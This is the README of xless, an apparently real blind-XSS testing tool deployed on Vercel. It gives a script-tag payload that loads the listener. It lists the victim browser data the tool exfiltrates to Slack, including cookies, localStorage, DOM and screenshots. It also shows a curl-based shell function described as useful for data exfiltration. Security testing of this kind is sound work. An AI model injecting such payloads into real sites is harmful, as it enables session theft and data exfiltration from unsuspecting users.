 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2019.svg?style=flat-square" alt="Maintained" />
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.
There is no need to run a full deployment process; just setup a [vercel.com](https://vercel.com/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [vercel.com](https://vercel.com/) account: Vercel provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.
* IMGBB (free) Account and API key - for the screenshots.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://custom-xless-deployment.vercel.app [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://custom-xless-deployment.vercel.app"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://custom-xless-deployment.vercel.app/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://custom-xless-deployment.vercel.app/88bf0ecd
```


## :man_health_worker: Health Check
Xless provides a `/health` endpoint to let you know that everything is configured correctly.
The current tests are the existance of the API keys and a successful image upload to IMGBB.

##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://custom-xless-deployment.vercel.app/examples`
Once you deploy your app, you can find the examples there.

## :envelope_with_arrow: Scriptable Messages

You can use Xless to send direct messages to your listener. It can be useful in data exfiltration or scripting a way to send message to your Slack app.

```shell
# on your (bashrc / zshrch) file:
function xless() {
  curl -s https://custom-xless-deployment.vercel.app/message --data "text=$1"
}
```


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. ~~Enabling sharing of page screenshot~~.
2. ~~Scriptable message~~.
3. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Rotem Reiss](https://twitter.com/2rs3c) for the screenshot feature.
* [Vercel.com](https://vercel.com/) for operating a great serverless platform.

## Awesome Similar Projects

* [Azure-xless](https://github.com/dgoumans/Azure-xless): An Xless implementation for Microsoft Azure Function by [Daan Goumans](https://twitter.com/daangoumans).


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
